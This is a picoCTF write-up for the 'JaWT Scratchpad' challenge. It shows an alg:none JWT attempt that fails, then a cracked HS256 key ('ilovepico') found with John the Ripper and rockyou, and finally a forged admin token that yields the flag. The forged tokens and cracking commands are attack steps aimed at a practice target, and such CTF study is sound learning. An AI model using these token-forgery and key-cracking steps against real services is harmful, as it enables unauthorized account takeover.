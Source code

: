 +++
title = "JaWT Scratchpad"
date = "2020-12-26"
author = "RealFakeAccount"
description = "https://play.picoctf.org/practice/challenge/25?category=1&page=2"
+++

This is a learning-solving question.

Both website and hint tell us to look up JWT. 

After searching `JWT vulnerabilities` in Google, you can find this:

<https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/>

But after implementing this method, it seems wrong. When you Change the `jwt cookies` to 

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4ifQ.
```

Which stands for the payload: 

```json
{
  "typ": "JWT",
  "alg": "none"
}

{
  "user": "admin"
}

{

}
```

You only get an 500 error. 

Read through this article <https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens> , combining the [hint](https://github.com/magnumripper/JohnTheRipper) they give, we can guess that we should bruteforce the password.

Also, because this scratchpad only use username as identity, we can guess that the `key` that used for encryption is fixed.

We can start solving this question after we know what to do.

First, generate a arbitrary `jwt cookies`. I will use username `john` here.

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y
```

Then, use [john-the-ripper](https://github.com/openwall/john) to bruteforce the key. You can use dictionary [rockyou](https://www.google.com/search?q=rockyou+txt) to bruteforce.

```
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y" > passwd

john --wordlist=./rockyou.txt passwd
```

We can see that the key is `ilovepico`.

We can then change the original payload using our key. You can conveniently do this step here: <https://www.jsonwebtoken.io/> 

After changing the user into `admin`, you can get the result JWT string:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJqdGkiOiI5NTc0NWVkNC04ZmVkLTRhZWQtYmU3Zi1iMDI3MDU0ZjUzM2IiLCJpYXQiOjE2MDkxMTM2OTgsImV4cCI6MTYwOTExNzMwNH0.8Eq1KaMo8cDtH3o79g04qKtx_muepD1zqGss3oiekPs
```

Replacing the original `jwt cookies` in the question to this, we can finally get the flag.
